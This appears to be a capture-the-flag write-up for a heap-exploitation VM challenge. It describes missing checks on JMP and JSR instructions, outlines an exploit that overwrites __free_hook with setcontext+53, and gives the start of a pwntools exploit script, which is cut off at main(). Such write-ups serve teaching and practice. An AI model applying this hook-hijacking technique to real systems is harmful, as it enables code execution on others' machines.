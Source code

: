 vm instruction：

```cpp
enum{
    OP_ADD = 0,	//add
    OP_SUB,     //sub
    OP_MUL,     //mul
    OP_DIV,     //div
    OP_MOV,     //mov
    OP_JSR,     //jump register
    OP_AND,     //bitwise and
    OP_XOR,     //bitwise xor
    OP_OR,      //bitwise or
    OP_NOT,     //bitwise not
    OP_PUSH,    //push
    OP_POP,     //pop
    OP_JMP,     //jump
    OP_ALLOC,   //alloc new stack
    OP_NOP,     //nop
};
```

The program first reads an instruction of 0x1000 length, then checks whether the instruction is legal or not, and passes the number of instructions together to the run_vm function, and run_vm function start to execute the instruction. 

There are no check with JMP and JSR instruction in the check_instruction function，and look at the init_vm function：

![t1gaSH.png](https://s1.ax1x.com/2020/05/31/t1gaSH.png)

vm->stack is allocated after vm->pc，it means vm->stack at high address，so we can push the instruction into stack first and jmp to stack to run the instruction that not be checked. Now we can use MOV instruction to arbitrary read and write.

So a basic exploit as follows: 

- push the instruction into stack and jmp to stack to run it
- Reduce the size of the chunk where the vm->stack is located so that it doesn't merge with top_chunk after free, and we can use the remaining libc address on the heap
- Use ADD,SUB and MOV instruction to arbitrary write，modify `__free_hook` to `setcontext+53` 
- trigger free to hijack it

exp：

```python
from pwn import *

context.arch="amd64"

def debug(addr,PIE=True):
	if PIE:
		text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
		gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
	else:
		gdb.attach(p,"b *{}".format(hex(addr)))

def push_code(code):
	padding = 0 if (len(code)%8 == 0) else 8 - (len(code)%8)
	c = code+p8(instr["nop"])*padding	# align 8
	push_count = len(c)/8
	sc = (p8(instr["push"])+p8(1)+p64(0x21))*(0xf6-push_count)
	for i in range(push_count-1,-1,-1):
		sc += p8(instr["push"])+p8(1)+p64(u64(c[i*8:i*8+8]))
	return sc
	

def main(host,port=6001):
```